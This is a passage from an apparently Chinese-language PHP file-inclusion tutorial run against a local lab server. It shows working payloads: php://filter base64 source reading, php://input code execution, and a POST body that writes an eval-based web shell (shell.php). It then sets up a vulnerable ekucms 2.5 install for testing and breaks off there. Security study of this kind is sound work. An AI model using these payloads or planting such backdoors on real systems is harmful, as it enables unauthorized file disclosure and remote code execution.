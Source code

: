 ### php://filter读取文件源码用法

```
php://filter/read=convert.base64-encode/resource=[文件名]
http://127.0.0.1/include.php?file=php://filter/read=convert.base64-encode/resource=phpinfo.php
```

　读取`1.txt`文件源码

![](https://img.yatjay.top/md/202203131717932.png)

得到base64加密后的源码(为避免直接输出源码时显示乱码，特意使用base64加密)

解密后得到源码

![](https://img.yatjay.top/md/202203131719357.png)

### php://input + [POST DATA]执行php代码用法

```
http://127.0.0.1/include.php?file=php://input

[POST DATA部分]
<?php phpinfo();?>
```

执行`<?php phpinfo(); ?>`代码

![](https://img.yatjay.top/md/202203131721397.png)

### php://input + [POST DATA]写入一句话木马用法

```
http://127.0.0.1/include.php?file=php://input

[POST DATA部分]
<?php fputs(fopen('shell.php','w'),'<?php @eval($_GET[cmd]); ?>'); ?>
```

使用该伪协议写入一个`shell.php`后门文件

![](https://img.yatjay.top/md/202203131723619.png)

## 某CMS程序文件包含利用-黑盒(ekucms)

程序文件：https://pan.baidu.com/s/1x_mwVF--xxmoKAvDJ8mRsw   提取码: xiao

下载上述文件解压后在本地搭建，搭建成功如下图所示

![](https://img.yatjay.top/md/202203132138132.png)

黑盒测试，已知CMS指纹，尝试搜索相关漏洞：ekucms 漏洞。发现ekucms 2.5存在本地文件包含漏洞，参考文章：https://www.cnblogs.com/csnd/p/11807743.html

不能进行远程文件包含，只能进行本地文件包含，本地文件包含有如下两种思路
